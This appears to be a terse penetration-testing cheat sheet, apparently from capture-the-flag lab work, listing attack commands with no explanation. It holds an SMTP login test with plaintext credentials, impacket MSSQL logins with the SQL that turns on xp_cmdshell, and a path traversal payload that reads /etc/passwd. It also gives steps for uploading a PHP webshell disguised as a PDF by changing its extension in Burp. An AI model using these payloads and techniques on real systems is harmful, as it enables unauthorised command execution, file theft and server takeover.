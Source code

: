 ## Email Attack

- swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password homenetworkingadministrator --quit-after AUTH

## MSSQL Enabling xp_cmdshell

- impacket-mssqlclient sql_svc:Dolphin1@10.10.205.148 -windows-auth
- impacket-mssqlclient -k -no-pass SSCM.LAB/sccm-sql@mssql.sccm.lab -debug
- EXECUTE sp_configure 'show advanced options', 1;
- RECONFIGURE;
- EXECUTE sp_configure 'xp_cmdshell', 1;
- RECONFIGURE;

## Directory Traversal

- ....//....//....//....//....//....//....//....//....//....//....//etc/passwd

## PHP webshell

- https://github.com/artyuum/simple-php-web-shell.git

## File Upload

#### PDF file

- cat shell.pdf
- add this to file:
  %PDF-1.7
  with the php cmd webshell code
- upload it but capture with Burp and use Burp to change the extension to php/pHP
